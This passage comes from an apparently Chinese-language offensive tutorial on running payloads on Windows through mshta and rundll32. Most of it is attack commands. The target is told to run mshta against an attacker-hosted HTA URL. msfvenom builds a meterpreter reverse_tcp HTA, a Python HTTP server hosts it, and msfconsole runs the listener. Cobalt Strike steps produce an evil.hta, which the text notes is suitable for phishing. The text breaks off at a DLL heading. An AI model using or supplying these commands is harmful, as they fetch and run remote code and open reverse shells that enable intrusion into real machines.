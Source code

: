生成hta脚本网址：`http://192.168.1.106:8080/qOe1oSKv.hta`（执行`run -j`命令后会出现路径及文件名）

**靶机操作**

```powershell
mshta http://192.168.1.106:8080/qOe1oSKv.hta #上面生成hta脚本的网址
```

### Msfvenom生成HTA脚本

使用`Msfvenom`生成`HTA`脚本

**攻击机操作**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.106 lport=9999 -f hta-psh -o 1.hta	#通过msfvenom生成hta脚本

python3 -m http.server	#用python3启动一个简易http服务，一定要在hta脚本生成的目录下启动

#或通过python2启动也可以
python2 -m SimpleHTTPServer
```

再打开一个终端，进入`msfconsole`

```bash
msf6 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.1.106 -P 9999	#注意要和msfvenom命令中的lhost和lport对应
```

**靶机操作**

```bash
mshta.exe http://192.168.1.106:8000/1.hta	#和注意文件名1.hta要和msfvenom命令中 -o 后面的文件名一致
```

### CobaltStrike生成HTA脚本

> 首先开启一个监听器，有一个头戴式耳机的图标，进入后更改两个ip地址为teamserver的IP
>
> Attack > Packages > Html Appactions > 选择上一步创建的监听器 > Powershell > Host Files > 选择生成的 evil.hta 文件 > 生成托管文件的URL地址
>
> 注意配置IP和端口号
>
> 在攻击机上访问托管文件的url地址，下载文件后进行运行即可
>
> **可钓鱼**

## 三、dll（Rundll32）

Rundll32.exe与Windows操作系统相关，它允许调用从DLL导出的函数(16位或32位)，并将其存储在适当的内存库中。

### Msfvenom生成DLL执行

**攻击机操作**
